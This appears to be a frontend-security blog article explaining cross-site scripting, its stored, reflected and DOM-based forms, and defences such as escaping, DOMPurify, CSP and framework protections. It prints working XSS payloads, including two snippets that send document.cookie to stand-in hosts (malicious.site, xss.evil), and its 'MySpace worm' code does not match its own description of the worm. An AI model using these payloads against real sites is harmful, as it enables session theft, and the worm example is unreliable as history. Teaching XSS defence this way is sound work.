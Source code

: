 ```yaml
---

title: "Demystifying XSS (Cross-Site Scripting): A Comprehensive Approach for Frontend Developers"
slug: "advanced-security-xss"
category: "Security"
tags: ["security", "xss", "sanitization", "escaping", "javascript", "frontend"]
summary: "Explore the intricacies of Cross-Site Scripting (XSS), one of the most pervasive and perilous vulnerabilities in web applications. We delve into how XSS operates, its types, real-world examples, and effective prevention strategies, ensuring a fortified frontend development strategy."
publishedAt: "2023-01-20"
---
```


# Demystifying XSS (Cross-Site Scripting): A Comprehensive Approach for Frontend Developers

As seasoned frontend developers, you are undoubtedly aware that Cross-Site Scripting, colloquially known as **XSS**, is one of the most prevalent and potentially detrimental vulnerabilities in web applications.

The central danger of XSS lies in its ability to enable attackers to **inject malicious JavaScript** into your web page. Once the nefarious JavaScript is active, it can lead to a series of damaging actions, such as:
- Theft of cookies and tokens, compromising authentication mechanisms
- Logging keystrokes, thereby accessing sensitive user inputs
- Defacing user interface (UI), disrupting the user experience
- Redirecting users to malicious websites
- Installing fake login forms to phish for user credentials
- Exfiltrating data via API calls, leading to data breaches

The perennial presence of XSS in OWASP's Top 10 web vulnerabilities underlines its ubiquitous nature, potent capabilities, and often inconspicuous operation.

---

## Unearthing the Causes of XSS

XSS typically occurs when:
- User-controlled input is **rendered into HTML** without the necessary precautions, and
- The input is **not adequately escaped or sanitized**, thereby allowing malicious scripts to execute.

To illustrate, let's consider the following scenarios:
- A blog comment is directly rendered without any filtering or sanitizing.
- A username is injected into the Document Object Model (DOM) without proper encoding.
- A URL parameter is inserted into a page without checking for potential script tags.

Here's a simple example to illustrate the concept:

```js
document.body.innerHTML = "Welcome " + location.hash;
```

Upon visiting a manipulated URL like `https://example.com/#<script>alert(1)</script>`, an alert box will pop up, indicating a successful XSS attack.

---

## Categorizing XSS: Understanding its Many Forms

XSS attacks can be broadly classified into three categories:

### 1. Stored XSS

In Stored XSS, the malicious payload is **persisted** (e.g., in a database) and subsequently served to users. This type of XSS is commonly seen in:
- Forum posts
- Comments
- User profiles

### 2. Reflected XSS

In Reflected XSS, the payload is embedded in the URL or query parameters and is reflected in the response. This is frequently observed in:
- Search results
- Error messages
- Redirects

### 3. DOM-Based XSS

In DOM-Based XSS, the injection occurs **entirely within client-side JavaScript**, with no server involvement. This can happen when user input is directly used to manipulate the DOM, as shown in the following example:

```js
let user = location.hash;
document.body.innerHTML = "Hi " + user;
```

---

## A Glimpse into a Real-World XSS Attack: The MySpace Worm (2005)

To understand the devastating potential of XSS, let's revisit a notorious real-world example - the MySpace Worm of 2005. A user named Samy Kamkar ingeniously injected a script into his profile:

```html
<script>
  document.body.innerHTML += 'I love Samy';
  fetch('https://malicious.site', { method: 'POST', body: document.cookie });
</script>
```

This script automatically added Samy as a friend to anyone who viewed his profile. The worm quickly **went viral**, infecting over a million users within a short span of time.

---

## Prevention Strategies Against XSS Attacks

### 1. Escaping Output

Escaping involves encoding potentially unsafe characters in user input when inserting content into the DOM. For instance, HTML encoding transforms `<` into `&lt;`. It's safer to use `textContent` over `innerHTML` to prevent script execution:

```js
element.textContent = userInput;
```

### 2. Sanitizing Rich Content

Sanitization involves stripping or altering potentially harmful data from user input. Libraries like DOMPurify or sanitize-html provide robust sanitization:

```js
const clean = DOMPurify.sanitize(userInput);
container.innerHTML = clean;
```

### 3. Avoidance of Dangerous APIs

Certain JavaScript APIs, such as `innerHTML`, `document.write`, `eval`, `Function`, `setTimeout("code")`, and `dangerouslySetInnerHTML` in React, are particularly susceptible to XSS attacks. They should be avoided unless absolutely necessary, and never used with untrusted input.

### 4. Implementing CSP (Content Security Policy)

CSP is a powerful tool that allows you to specify the sources from which the browser is allowed to load resources. It can block inline scripts, third-party sources, and eval by default:

```http
Content-Security-Policy: script-src 'self'; object-src 'none';
```

---

## Framework-Specific Protections Against XSS

### React

React escapes HTML by default, making it safer against XSS. However, using `dangerouslySetInnerHTML` bypasses this security and should be used with extreme caution:

```jsx
<div>{userInput}</div> // safe

<div dangerouslySetInnerHTML={{ __html: userInput }} /> // ⚠️ potentially vulnerable
```

### Vue

Vue automatically escapes any interpolated content. However, the `v-html` directive, which allows HTML insertion, should be used judiciously as it may pave the way for XSS attacks.

### Angular

Angular uses `DomSanitizer` for sanitizing HTML and other potentially risky content. It also provides context-aware escaping, ensuring that content is escaped appropriately based on its context in the DOM.

---

## Testing for XSS

Regular testing for XSS vulnerabilities is crucial. Here are some tools and strategies you could employ:

- Chrome DevTools: Paste payloads directly into your HTML
- XSSHunter, Burp Suite: These are comprehensive security testing tools
- Manual code audit: Examine your rendering code for potential vulnerabilities
- Look for unescaped user content and use of `innerHTML`

You can try various payloads like:

```html
"><script>alert(1)</script>
<script>fetch('https://xss.evil?cookie=' + document.cookie)</script>
```

---

## Anti-Patterns to Avoid

- Rendering user content with `innerHTML`
- Accepting raw HTML input without appropriate sanitization
- Using `dangerouslySetInnerHTML` in React without considering the risks
- Allowing `eval` or JavaScript injection via query parameters

---

## Conclusion: Respecting the DOM

XSS is a potent reminder of the risks involved when user input is trusted blindly and the sanctity of the DOM is disregarded. As responsible developers, it is incumbent upon us to protect our users and the integrity of our applications.

Adopt a balanced approach: Escape your outputs, sanitize your inputs, and audit your DOM mutations meticulously.

Remember, even a single line of unsafe code can compromise **everything**. Stay vigilant, stay safe.